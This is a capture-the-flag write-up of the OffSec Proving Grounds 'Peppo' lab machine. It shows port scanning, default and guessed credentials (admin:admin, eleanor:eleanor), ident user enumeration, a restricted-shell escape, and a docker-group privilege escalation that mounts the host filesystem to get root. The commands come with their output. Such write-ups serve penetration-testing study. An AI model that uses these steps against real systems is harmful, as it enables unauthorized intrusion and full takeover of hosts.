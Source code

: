 ```yaml
---
title: "Proving grounds Practice: Peppo"
layout: post
date: 2024-04-12 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- Docker
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


# NMAP

```text
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
113/tcp   open  ident             FreeBSD identd
5432/tcp  open  postgresql        PostgreSQL DB 12.3 - 12.4
8080/tcp  open  http              WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
10000/tcp open  snet-sensor-mgmt?
```

## 8080/tcp  open  http  WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))

admin:admin

password change -> password

## 113/tcp   open  ident   FreeBSD identd

`sudo apt install ident-user-enum`

```sh
naveenj@hackerspace:[09:32]~/proving_grounds/Peppo$ ident-user-enum 192.168.196.60 113 22 10000
ident-user-enum v1.0 ( http://pentestmonkey.net/tools/ident-user-enum )

192.168.196.60:113	nobody
192.168.196.60:22	root
192.168.196.60:10000	eleanor
```

## 10000/tcp open  snet-sensor-mgmt?

user: eleanor

## 22/tcp    open  ssh   OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)

- Try brute forcing credentials using username as eleanor. `eleanor:eleanor`

***Escape rbash***

- https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/

Export necessary PATH

```sh
leanor@peppo:~/bin$ PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
eleanor@peppo:~/bin$ python -c 'import pty; pty.spawn("/bin/bash")'
eleanor@peppo:~/bin$ id
bash: id: command not found
n:/binr@peppo:~/bin$ PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin
eleanor@peppo:~/bin$ id
uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)
```

## Privilege Escalation

- User & Groups: uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)

### Docker exploit

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

List Docker images in the system.

```sh
eleanor@peppo:/tmp$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
redmine             latest              0c8429c66e07        3 years ago         542MB
postgres            latest              adf2b126dda8        3 years ago         313MB
```

Run `docker run -v /:/mnt --rm -it redmine chroot /mnt s`

```sh
eleanor@peppo:/tmp$ docker run -v /:/mnt --rm -it redmine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
```

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).